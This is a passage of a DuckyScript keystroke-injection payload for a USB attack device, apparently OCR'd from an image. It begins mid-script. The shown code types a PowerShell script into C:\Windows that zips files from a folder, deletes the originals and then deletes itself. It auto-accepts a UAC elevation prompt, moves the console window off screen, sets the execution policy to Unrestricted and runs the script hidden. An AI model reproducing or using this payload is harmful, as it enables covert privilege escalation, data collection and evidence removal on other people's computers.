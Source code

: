 STRING (dir $zipFile).IsReadOnly = $false} 
ENTER
STRING $shellApplication = new-object -com shell.application
ENTER 
STRING $zipPackage = $shellApplication.NameSpace($zipFile) 
ENTER
STRING $files = Get-ChildItem -Path $srcdir 
ENTER 
STRING foreach($file in $files) { 
ENTER
STRING $zipPackage.CopyHere($file.FullName) 
ENTER 
STRING while($zipPackage.Items().Item($file.name) -eq $null){ 
ENTER
STRING Start-sleep -seconds 1 }}} 
ENTER 
STRING copy-ToZip($fileSaveDir) 
ENTER
STRING remove-item $fileSaveDir -recurse 
ENTER
STRING Remove-Item $MyINvocation.InvocationName 
ENTER
CTRL s
DELAY 750    
STRING C:\Windows\config-10134.ps1
ENTER
DELAY 1000
ALT F4 
DELAY 750  
GUI r 
DELAY 500 
STRING powershell Start-Process cmd -Verb runAs 
ENTER
DELAY 1000
ALT y 
DELAY 750   
STRING mode con:cols=14 lines=1 
ENTER
ALT SPACE 
DELAY 750  
STRING m 
DELAY 1000
DOWNARROW 
REPEAT 100
ENTER
STRING powershell Set-ExecutionPolicy 'Unrestricted' -Scope CurrentUser -Confirm:$false 
ENTER 
DELAY 750  
STRING powershell.exe -windowstyle hidden -File C:\Windows\config-10134.ps1
ENTER
